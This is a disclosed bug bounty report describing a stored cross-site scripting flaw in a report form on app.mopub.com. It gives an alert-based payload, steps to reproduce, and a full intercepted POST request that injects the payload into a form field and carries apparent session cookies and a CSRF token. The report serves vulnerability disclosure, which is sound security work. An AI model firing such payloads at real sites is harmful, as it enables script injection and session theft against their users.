 # Stored XSS in https://app.mopub.com

## Report Details
- **Report ID**: 642281
- **URL**: https://hackerone.com/reports/642281
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-07-13T08:56:15.581Z
- **Disclosed**: 2019-12-17T23:52:36.359Z

## Reporter
- **Username**: august1808
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: x

## Vulnerability Information
**Vulnerable URL**
https://app.mopub.com/reports/custom/

**XSS Payload:** 
"><img src=x onerror=alert(domain)>

**Parameter** 
nrnew-interval

## Steps To Reproduce:
1. Login with your credentials.
2. Go to URL: https://app.mopub.com/reports/custom/
3. Click on New Network Report => Create a new network performance report.
4. Start Burp suite proxy and intercept on.
5. Click on Run and Save button. intercept the request.
6. Enter above payload in vulnerable parameter.
7. You will notice that xss will execute. 

## POST Request
```
POST /reports/custom/add_network_report/ HTTP/1.1
Host: app.mopub.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://app.mopub.com/reports/custom/
X-CSRFToken: Kamf4foDZKEQRxCOVLTalPmO0BKqNhdgexLNcHl3Vv1C4K2Dt6ckPmlIEhtYwHwe
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------68352596720712
Content-Length: 838
Connection: close
Cookie: _gcl_au=1.1.1079813240.1562926835; _ga=GA1.2.333952053.1562926836; _gid=GA1.2.668572806.1562926836; csrftoken=Kamf4foDZKEQRxCOVLTalPmO0BKqNhdgexLNcHl3Vv1C4K2Dt6ckPmlIEhtYwHwe; mp_mixpanel__c=1; mp__mixpanel=%7B%22distinct_id%22%3A%20%2216bea510e694ee-0d3dfa328c7f088-4c312f7f-e1000-16bea510e6a21%22%2C%22%24device_id%22%3A%20%2216bea510e694ee-0d3dfa328c7f088-4c312f7f-e1000-16bea510e6a21%22%2C%22accountKey%22%3A%20%22%22%2C%22accessLevel%22%3A%20%22%22%2C%22%24initial_referrer%22%3A%20%22https%3A%2F%2Fwww.mopub.com%2F%22%2C%22%24initial_referring_domain%22%3A%20%22www.mopub.com%22%7D; sessionid=foc4dxhc0fpft4k0v55llxgdrdxz18ap; mp_c99579c4804fba6b8aeed7a911581652_mixpanel=%7B%22distinct_id%22%3A%20%22285f16e8e3a64ffc9bcc629faccb3d23%22%2C%22%24device_id%22%3A%20%2216bea511f491de-05975356a250958-4c312f7f-e1000-16bea511f4a4b3%22%2C%22accountKey%22%3A%20%229ea06dcced234a41a7bf431dd78ac134%22%2C%22accessLevel%22%3A%20%22member%22%2C%22%24initial_referrer%22%3A%20%22https%3A%2F%2Fapp.mopub.com%2Faccount%2Flogin%2F%3Fnext%3D%2Fdashboard%2F%22%2C%22%24initial_referring_domain%22%3A%20%22app.mopub.com%22%2C%22__mps%22%3A%20%7B%7D%2C%22__mpso%22%3A%20%7B%7D%2C%22__mpus%22%3A%20%7B%7D%2C%22__mpa%22%3A%20%7B%7D%2C%22__mpu%22%3A%20%7B%7D%2C%22__mpr%22%3A%20%5B%5D%2C%22__mpap%22%3A%20%5B%5D%2C%22%24user_id%22%3A%20%22285f16e8e3a64ffc9bcc629faccb3d23%22%7D

-----------------------------68352596720712
Content-Disposition: form-data; name="nrnew-saved"

on
-----------------------------68352596720712
Content-Disposition: form-data; name="nrnew-name"

todayxss1111222
-----------------------------68352596720712
Content-Disposition: form-data; name="nrnew-recipients"

admin123@mailinator.com
-----------------------------68352596720712
Content-Disposition: form-data; name="nrnew-interval"

custom"><img src=x onerror=alert(cookie)>
-----------------------------68352596720712
Content-Disposition: form-data; name="nrnew-start"

07/17/2019
-----------------------------68352596720712
Content-Disposition: form-data; name="nrnew-end"

07/19/2019
-----------------------------68352596720712
Content-Disposition: form-data; name="nrnew-sched_interval"

none
-----------------------------68352596720712--
```
{F528288}

{F528287}

## Impact

with the help of this attack, an attacker can execute malicious javascript on an application

## Attachments
- Annotation_2019-07-13_140632.png
- Annotation_2019-07-13_141218.png
- XSSS.webm
